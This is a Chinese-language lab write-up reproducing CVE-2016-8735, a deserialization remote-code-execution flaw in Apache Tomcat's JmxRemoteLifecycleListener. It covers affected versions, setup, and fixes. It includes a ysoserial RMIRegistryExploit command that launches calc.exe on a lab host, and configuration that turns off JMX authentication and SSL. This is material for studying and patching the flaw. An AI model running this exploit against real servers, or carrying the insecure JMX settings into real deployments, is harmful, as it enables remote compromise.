 ```
OS:Windows x64  
Tomcat:ache-tomcat-7.0.105.zip  
jdk:1.7
可直接下载zip压缩文档直接执行bin目录下的startup.bat文件，即可启动服务。
```
### 介绍

Tomcat是Apache 软件基金会（Apache Software Foundation）的Jakarta 项目中的一个核心项目，由Apache、Sun 和其他一些公司及个人共同开发而成。由于有了Sun 的参与和支持，最新的Servlet 和JSP 规范总是能在Tomcat 中得到体现。因为Tomcat 技术先进、性能稳定，而且免费，因而深受Java 爱好者的喜爱并得到了部分软件开发商的认可，成为目前比较流行的Web 应用服务器。

### 环境搭建

```
Java环境安装
https://www.java.com/en/download/manual.jsp
Tomcat
https://tomcat.apache.org/download-70.cgi
```

1、下载并解压

![image-20200811143448762](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200811143320510.png)

2、双击执行启动服务

```
http://192.168.3.156:8080/
```

![image-20200811143448762](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200811143448762.png)

#### Tomcat结构介绍

下载解压后存在目录、文件信息：

```shell
bin-----存放Tomcat的脚本文件，例如启动、关闭
conf----Tomcat的配置文件，例如server.xml和web.xml
lib-----存放Tomcat运行需要的库文件（JAR包）
logs----存放Tomcat执行时的LOG文件
temp----存放Tomcat运行时所产生的临时文件
webapps-Web发布目录，默认情况下把Web应用文件放于此目录
work----存放jsp编译后产生的class文件
```

### 漏洞分类实战

#### CVE-2016-8735

##### 漏洞描述

Oracle修复了JmxRemoteLifecycleListener反序列化漏洞(CVE-2016-3427)。 Tomcat也使用了JmxRemoteLifecycleListener这个监听器,但是Tomcat并没有及时升级，所以存在这个远程代码执行漏洞。

##### 影响范围

Apache Tomcat 9.0.0.M1 to 9.0.0.M11 

Apache Tomcat 8.5.0 to 8.5.6 

Apache Tomcat 8.0.0.RC1 to 8.0.38 

Apache Tomcat 7.0.0 to 7.0.72 

Apache Tomcat 6.0.0 to 6.0.47

##### 漏洞原理

该漏洞的诱因存在于Oracle已经修复的JmxRemoteLifecycleListener反序列化漏洞(CVE-2016-3427)。因为Tomcat也使用了JmxRemoteLifecycleListener监听功能，但并没有及时升级，导致该远程代码执行漏洞。

##### 漏洞条件

1、要外部开启JmxRemoteLifecycleListener监听端口，实现远程利用。 

```xml
conf/server.xml
<Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
```

![image-20200812101526860](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200812101526860.png)

2、下载对应jar放到lib目录下：

- catalina-jmx-remote.jar要与对应tomcat版本一致[不同版本下载](https://archive.apache.org/dist/tomcat/)一般存在extras文件下，如下图所示
- [groovy2.3.9](https://mvnrepository.com/artifact/org.codehaus.groovy/groovy/2.3.9)下载版本最好为2.3.9（经过测试2.3.0到2.4.0-beta-4）

![image-20200812102130773](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200812102130773.png)

![image-20200811163431177](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200811163431177.png)

3、接着修改bin/catalina.bat，在Execute The Requested Command处上面添加

```java
set CATALINA_OPTS=-Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false
```

- -Dcom.sun.management.jmxremote.ssl=false 指定是否使用SSL通讯
- -Dcom.sun.management.jmxremote.authenticate=false 指定是否需要密码验证

![image-20200812101910590](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200812101910590.png)

4、服务启动

下图所示：服务已启动10001端口已启动

![image-20200812103050881](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200812103050881.png)

##### 漏洞检测

1、执行以下PoC

```java
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.3.165 10001 Groovy1 calc.exe
```

Java 1.8出现报错

![image-20200812104703039](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200812104703039.png)

1.7的jdk成功弹出计算器

![PoC](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/PoC.gif)

##### 漏洞修复

紧急措施：关闭JmxRemoteLifecycleListener功能，或者是对jmx JmxRemoteLifecycleListener远程端口进行网络访问控制。同时，增加严格的认证方式。

升级jdk（目前测试1.8是无法利用）

推荐方案：官方已经发布了版本更新，建议您升级到最新版本。

- Apache Tomcat 9.0.0.M13或更新版本(Apache Tomcat 9.0.0.M12也修复了此漏洞，但并未发布)
- Apache Tomcat 8.5.8或更新版本(Apache Tomcat 8.5.7也修复了此漏洞，但并未发布)
- Apache Tomcat 8.0.39或更新版本
- Apache Tomcat 7.0.73或更新版本
- Apache Tomcat 6.0.48或更新版本
